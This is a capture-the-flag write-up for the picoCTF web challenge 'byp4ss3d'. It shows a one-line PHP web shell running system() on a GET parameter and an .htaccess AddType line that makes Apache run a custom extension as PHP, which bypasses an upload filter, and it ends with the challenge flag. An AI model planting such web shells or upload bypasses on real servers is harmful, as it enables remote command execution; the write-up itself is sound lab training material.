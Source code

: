 # byp4ss3d
- [Challenge information](#challenge-information)
- [Overview](#overview)
- [Solution](#solution)
- [Flag](#flag)
## Challenge information
```text
Tags: Web Explotation, picoMini by CMU-Africa

Description: A university's online registration portal asks students to upload their ID cards for verification. The developer put some filters in place to ensure only image files are uploaded but are they enough? Take a look at how the upload is implemented. Maybe there's a way to slip past the checks and interact with the server in ways you shouldn't.

Hints: 
1. Apache can be tricked into executing non-PHP files as PHP with a .htaccess file.
2. Try uploading more than just one file.
```
## Overview
### Access the link, a website that allows us to upload files will appear
![alt text](/CTF/picoCTF/Static/Images/byp4ss3d/image1.png)  

* When i try to upload any png image file  

![alt text](/CTF/picoCTF/Static/Images/byp4ss3d/image2.png)  
## Solution
**Step1:** Recon  
* Normally when I encounter this type of website I immediately think of File Upload Vulnerability.  
* I will try to upload a php malware file  
```PHP
<?php
    echo system($_GET["cmd"]);
?>
``` 
* Web returned `Not allowed!`  
* Let's try changing .php to .png and see what happens.  

![alt text](/CTF/picoCTF/Static/Images/byp4ss3d/image3.png)  
* Was able to upload, but when we accessed the website, it had been scanned for malware.  

![alt text](/CTF/picoCTF/Static/Images/byp4ss3d/image4.png)  
* I tried uploading files with different extensions than the one the web requires and it still uploads successfully.  
* It seems that only PHP files are blocked.  

**Step2:** Exploit  
* Based on hint 1: We can understand that if we upload a .htaccess file to trick the web into executing non-PHP files like PHP, it can still work.  
* We will create a .htaccess file and upload it to the web to execute files with the .hacker extension like PHP.   
```
AddType application/x-httpd-php .hacker
```  
* After uploading this file, we will rename the newly created php malware file to shell.hacker  
* Now we can execute it  
![alt text](/CTF/picoCTF/Static/Images/byp4ss3d/image5.png)  
## Flag
`picoCTF{s3rv3r_byp4ss_39f9de85}`